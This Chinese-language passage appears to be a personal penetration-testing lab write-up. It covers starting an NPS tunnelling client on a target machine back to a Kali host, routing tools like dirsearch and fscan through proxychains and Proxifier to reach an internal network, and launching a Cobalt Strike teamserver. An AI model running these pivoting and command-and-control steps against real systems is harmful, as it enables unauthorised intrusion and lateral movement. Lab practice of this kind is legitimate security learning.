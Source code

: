 客户端上传解压 `tar xzvf linux_amd64_client.tar.gz`

```java
./npc -server=192.168.236.130:8024 -vkey=rxvep66lpwxpomss -type=tcp  >/nps.txt  //存储后台启动日志
```

到这里张记性了直接用192.168.236那个ip的地址

（搞笑的是windows系统，不带tar xzvf 所以需要手动一个个文件上传然后进行拼接）

`这里又犯傻了，想在windows靶机上面传一个linux的nps，（😟😟😟）`

![image-20240103205123157](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240103205123157.png)

准备搞全局代理，kali我记得是自带proxi这个东西的

```java
proxychains -h //这里就可以看到conf配置文件的位置
```

![image-20240103210644290](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240103210644290.png)

`vim /etc/proxychains4.conf`  (端口就是我们设置的在nps中)

![image-20240103210715752](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240103210715752.png)

然后使用的话在命令前面加上`proxychains即可`

本来我是用ping来测试通不通内网的一直没字节返回，以为是我自己的错误，但是尝试了一下curl发现通了！

![image-20240103210855741](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240103210855741.png)

用dirsearch也是可以扫描的，以此类推fscan这些都是可以的

![image-20240103211019420](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240103211019420.png)

因为kali挂的是proxychains 不能在浏览器直接访问对应的页面，这时候可以用windwos本机的Proxifier连接kali里配置的

`需要用的是kali局域网的网段，不能是127.0.0.1`，在这里就是`192.168.236.130`

![image-20240103212842842](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240103212842842.png)

![image-20240103212850844](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240103212850844.png)

配置完就可以了

```java
这里实现了kali和windows，即linux和windows挂nps代理，以及局域网的共享代理😼😼😼蛮有趣的，大概花费了：6个小时
```

### (2)靶机上线cs

 在kali里 `./teamserver 192.168.136.130 cs123456` 运行cs服务(运行服务端)

![image-20240104124839162](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240104124839162.png)

（运行客户端）
